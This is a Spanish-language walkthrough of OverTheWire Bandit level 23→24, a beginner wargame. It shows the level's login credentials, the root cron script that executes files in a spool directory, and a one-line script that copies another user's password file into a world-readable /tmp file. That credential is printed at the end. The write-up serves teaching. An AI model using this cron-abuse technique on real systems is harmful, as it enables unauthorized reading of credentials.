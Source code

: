 # LEVEL 23 → LEVEL 24

# Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
# Datos de acceso al nivel
```
ssh bandit23@bandit.labs.overthewire.org -p 2220
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```
# Solución
```
bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/kd
mkdir: cannot create directory ‘/tmp/kd’: File exists
bandit23@bandit:~$ cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ cat script.sh
cat /etc/bandit_pass/bandit24 > /tmp/kd/password
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$ ls -la
total 10568
drwxrwxr-x    2 bandit23 bandit23     4096 Sep 18 16:25 .
drwxrwx-wt 2686 root     root     10801152 Sep 21 01:37 ..
-rw-rw-rw-    1 bandit23 bandit23       33 Sep 21 01:37 password
-rwxrwxr-x    1 bandit23 bandit23       49 Sep 21 01:36 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 10568
drwxrwxr-x    2 bandit23 bandit23     4096 Sep 18 16:25 .
drwxrwx-wt 2686 root     root     10801152 Sep 21 01:38 ..
-rw-rw-rw-    1 bandit23 bandit23       33 Sep 21 01:38 password
-rwxrwxr-x    1 bandit23 bandit23       49 Sep 21 01:36 script.sh
bandit23@bandit:/tmp/kd$ date
Thu Sep 21 01:38:23 AM UTC 2023
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
# Notas Adicionales
_ls_ → enumera el contenido del directorio que desee, archivos y otros directorios anidados.
_cat_ → te permite crear, fusionar o imprimir archivos en la pantalla de salida estándar o en otro archivo y mucho más.
_echo_ → comando para la impresión de un texto en pantalla.
_mkdir_ →te permite crear una o más carpetas en tu directorio de trabajo actual
_chmod_ → permite la asignación de permisos de acceso a carpetas o directorios​.
_touch_ → se usa principalmente para crear archivos vacíos y cambiar marcas de tiempo de archivos o carpetas
# Referencias